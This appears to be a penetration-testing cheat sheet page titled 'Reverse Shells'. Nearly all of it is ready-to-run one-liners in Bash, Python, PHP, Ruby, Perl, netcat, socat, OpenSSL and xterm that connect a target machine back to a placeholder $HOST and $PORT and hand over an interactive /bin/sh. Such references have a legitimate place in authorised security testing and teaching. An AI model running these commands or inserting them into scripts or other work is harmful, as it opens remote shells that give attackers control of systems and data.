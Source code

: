 ```yaml
---
title: Reverse Shells
---
```


Examples generally use `$HOST` and `$PORT` for the target host and port for the
shell callback.

## Bash ##

Bash **only** reverse shells generally require that `/dev/tcp` is enabled in
bash at build-time.

```
bash -i >& /dev/tcp/$HOST/$PORT 0>&1
```

Use redirection through a temporary FD (in this case, 42).

```
0<&42;exec 42<>/dev/tcp/$HOST/$PORT; sh <&42 >&42 2>&42
```

## Python ##

```
python -c 'import socket as so,subprocess,os;s=so.socket(so.AF_INET,so.SOCK_STREAM);s.connect(("$HOST",$PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP ##

```
php -r '$sock=fsockopen("$HOST",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby ##

```
ruby -rsocket -e'f=TCPSocket.open("$HOST",$PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Perl ##

```
perl -e 'use Socket;$i="$HOST";$p=$PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Common Utilities ##

Sometimes you can just use a utility available on the system.

### Netcat (Traditional) ###

```
nc -e /bin/sh $HOST $PORT
```

### Socat ###

[Socat is also a great handler for the shells](https://systemoverlord.com/2018/01/20/socat-as-a-handler-for-multiple-reverse-shells.html)

```
socat TCP:$HOST:$PORT exec:/bin/bash,pty,stderr,setsid
```

### Netcat (OpenBSD) ###

OpenBSD netcat removed the `-e` flag "for security."  All of these mechanisms
will also work on traditional netcat.

```
rm /tmp/f;mkfifo /tmp/f;/bin/sh -i 2>&1 </tmp/f|nc $HOST $PORT >/tmp/f
```

### OpenSSL ###

For your encrypted reverse shells!  Depends on the openssl command line binary.
It's a lot like OpenBSD netcat.

```
rm /tmp/f;mkfifo /tmp/f;/bin/sh -i 2>&1 </tmp/f|openssl s_client -connect $HOST:$PORT >/tmp/f
```

### Xterm ###

This is very different.  Instead of forwarding a shell, forward a whole terminal
emulator!

Attacker host:

```
xnest :1
xhost +targetip
```

On the target:

```
xterm -display $HOST:1
```

## Reverse Shell Tips ##
